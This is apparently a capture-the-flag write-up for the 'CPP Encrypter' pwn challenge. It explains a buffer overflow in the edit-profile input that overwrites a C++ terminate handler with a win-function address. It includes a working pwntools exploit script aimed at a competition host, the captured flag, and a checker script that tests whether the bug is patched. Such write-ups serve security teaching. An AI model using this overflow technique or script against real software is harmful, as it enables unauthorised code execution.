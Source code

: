 # Overview

**Challenge Name :** CPP Encrypter

**Author :** @Capang

**Description :** I love C so much that I code a CPP program using C syntax

## Analysis

```c
    puts("\n--- Edit Profile ---");
    printf("Enter new username (leave empty to keep current): ");
    fgets(local_418,0x404,stdin);
```

There is an obvious BOF here because the username is originally of size 256 but its taking in 1028 characters when you try to edit your profile.

![image](https://github.com/user-attachments/assets/f3cac91b-b0ee-42c7-ab91-da2e95044fa3)

After going through the things that we can overwrite, this function looked the most interesting. Judging from its name `terminate handler`, we assumed that if we somehow managed to terminate the program without the traditional way, we can overwrite this handler to point to a function that we want. But which function?

![image](https://github.com/user-attachments/assets/ef2b0b65-3d1c-47ee-8868-d44d2f2ee96e)

After doing abit of going through every single function in the program, you will eventually stumble upon this interesting function. Next step is how to terminate the program in a different way? 

![image](https://github.com/user-attachments/assets/1ee643bd-6c97-4e19-a2d6-55ae51a84b10)

In the encrypt message function, if you give too many messages to encrypt, it will trigger bad array length. So the goal is simple

1. Overwrite terminate handler with the address of the useless function
2. Give a large number to encrypt message and terminate the program

## Solve Script

```py
#!/usr/bin/python
from pwn import *

filepath = './encryption_app'
exe = context.binary = ELF(filepath)

host = "116.203.176.73"
port = 59656

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def create(usr=b"a", pas=b"a"):
  sla(b"choice: ", "1")
  sla(b"username: ", usr) 
  sla(b"password: ", pas)

def login(usr=b"a", pas=b"a"):
  sla(b"choice: ", "2")
  sla(b"Username: ", usr) 
  sla(b"Password: ", pas)

def edit(usr=b"a", pas=b"a"):
  sla(b"choice: ", "3")
  sla(b": ", usr)
  # s(usr)
  sla(b": ", pas)

def encrypt(num, method, msg):
  sla(b"choice: ", "5")
  sla(b"hash? ", str(num))
  sla(b": ", msg)
  sla(b": ", str(method))

# p = exe.process()
# p = remote("localhost", 10002)
p = remote(host,port)

win = 0x401976

create()
login()
payload = b"A" * 0x148
payload += p64(win)

edit(payload)

sla(b"choice: ", "5")
sla(b"hash? ", str(10000000000000000))

p.interactive()
```

![image](https://github.com/user-attachments/assets/108a3920-876b-4681-b223-317915787f21)

> Flag : UMCS{AW3S0ME_3NCRYPT0R_S0LLV33_73bb3661}

## SLA

```py
#!/usr/bin/env python3
"""
Service-health checker for the “Encrypt Messages” huge-array allocation bug.

Return codes:
0 – vulnerable / unpatched
1 – patched
2 – service down
"""
import socket
import sys
import time

# Status codes
UNPATCHED, PATCHED, DOWN = 0, 1, 2

# ======= helpers ============================================================

def recv_until(sock, marker: bytes, timeout=8.0) -> bool:
    """Receive until *marker* appears or timeout expires. Returns True on success."""
    sock.settimeout(timeout)
    data = b""
    try:
        while marker not in data:
            chunk = sock.recv(1024)
            if not chunk:
                return False          # connection closed
            data += chunk
        print(data)
        return True
    except (socket.timeout, ConnectionResetError):
        return False

def send_line(sock, line: str):
    sock.sendall(line.encode() + b"\n")

# ======= main check =========================================================

def run_check(host: str, port: int) -> int:
    try:
        s = socket.create_connection((host, port), timeout=3)
    except (socket.timeout, ConnectionRefusedError):
        return DOWN

    try:
        # Step 1: Create account
        if not recv_until(s, b"Enter choice: "):
            print(82)
            return DOWN
        send_line(s, "1")  # menu → Create Account
        print("creating account")

        if not recv_until(s, b"Enter username: "):
            print(222)
            return DOWN
        send_line(s, "t")  # 1-byte username keeps parsing simple

        if not recv_until(s, b"Enter password: "):
            return DOWN
        send_line(s, "t")
        print("created account")

        # Wait for success banner and next menu
        if not recv_until(s, b"Enter choice: "):
            return DOWN
        print("yes no?")

        # Step 2: Log in
        send_line(s, "2")
        if not recv_until(s, b"Username: "):
            return DOWN
        send_line(s, "t")
        if not recv_until(s, b"Password: "):
            return DOWN
        send_line(s, "t")
        if not recv_until(s, b"Login successful!\n"):
            return DOWN

        # print("login success")
        if not recv_until(s, b"Enter choice: "):
            return DOWN

        print("yes no?")

        # Step 3: Trigger the bug in “Encrypt Messages”
        send_line(s, "5")
        if not recv_until(s, b"How many messages to hash? "):
            return DOWN
        huge = "500000000000000000000"
        send_line(s, huge)
        print("sent big")

        # If the service is patched, it should send an error message **and**
        # return to the menu within a short window.
        patched_response = recv_until(s, b"Enter choice:", timeout=2)
    
        if patched_response:
            return PATCHED  # still alive → patched
        else:
            # Connection may already be dead; double-check with a tiny pause
            time.sleep(0.5)
            try:
                s.send(b"PING\n")
            except Exception:
                return UNPATCHED        # crashed → vulnerable
            return UNPATCHED            # still up but ignored us → treat as vuln
    finally:
        try:
            s.close()
        except Exception:
            pass

# ======= entry-point ========================================================

if __name__ == "__main__":
    host = sys.argv[1] if len(sys.argv) > 1 else "localhost"
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 10102

    status = run_check(host, port)
    print(status)
    sys.exit(status)
```

The SLA script checks if you still are able to send a big number as the array length. There are probably many ways to patch this such as removing the call, adding jump instructions or modifying jump conditions so I'll just leave it up to you guys to find out :D
